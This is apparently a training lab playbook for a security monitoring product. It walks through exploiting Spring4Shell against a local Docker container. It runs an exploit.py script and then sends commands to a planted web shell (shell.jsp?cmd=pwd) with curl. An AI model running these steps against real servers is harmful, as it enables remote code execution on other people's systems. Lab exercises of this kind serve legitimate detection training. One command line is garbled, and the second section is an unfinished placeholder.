





Threat Stack Playbooks
======================

Spring4Shell Playbook
---------------------

First, Access the Linux Ubuntu 20.04 LTS Box via WebShell.

Next, navigate to the spring4shell directory by entering the following command:

.. code-block::
   
   cd spring4shell
   

Next, to spin up the vulnerable Spring server, run the following command: 

.. code-block::
   docker run -p 80:8080 spring4shell
   
   
after you run the command, you should see the following screen.

Go back to UDF and start the linux host again. Then run the following command

.. code-block::
   
   curl localhost: curl localhost/helloworld/greeting
   
   
The following output should manifest.

Now to exploit, run the following command in the spring4shell directory.

.. code-block::
   
   python3 exploit.py --url 'http://localhost/helloworld/greeting'
   
The following output should manifest.

   
Now run the following command via shell

.. code-block::
   
   curl http://localhost/shell.jsp?cmd=pwd --output -
   
   
.. note::
   
   Run the --output flag as this is required for the output to display

Section 2
---------

Fill in here
